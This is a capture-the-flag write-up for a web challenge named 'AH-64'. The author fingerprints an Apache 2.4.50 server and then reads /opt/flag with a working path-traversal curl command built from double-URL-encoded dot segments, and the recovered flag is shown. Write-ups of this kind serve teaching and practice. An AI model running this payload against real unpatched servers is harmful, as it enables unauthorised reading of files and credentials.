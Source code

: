 **AH-64**

> Category: Web
>
> Super Six One, go to UHF secure. I've got some bad news. We see vulnerabilites like it is 2001. Tango located in /opt/flag
> 
> Site: AH-64 (http://io.ept.gg:30071/)

Going into the link we get a website with the text "It works!", and no more. 

We can send a GET-request to the webpage to see the server version.

Using httpie:
```
http GET http://io.ept.gg:30071/ 
```
Shows us 
> Server: Apache/2.4.50 (Unix)

A little research shows us that this server is vulnerable to a path-traversal attack (https://www.exploit-db.com/exploits/50406)
The webpage also gives us the method to perform this attack.

```bash
curl http://io.ept.gg:30071//cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/opt/flag
> EPT{we've_got_a_blackhawk_down_we've_got_a_blackhawk_down_i_mean_apache}
```


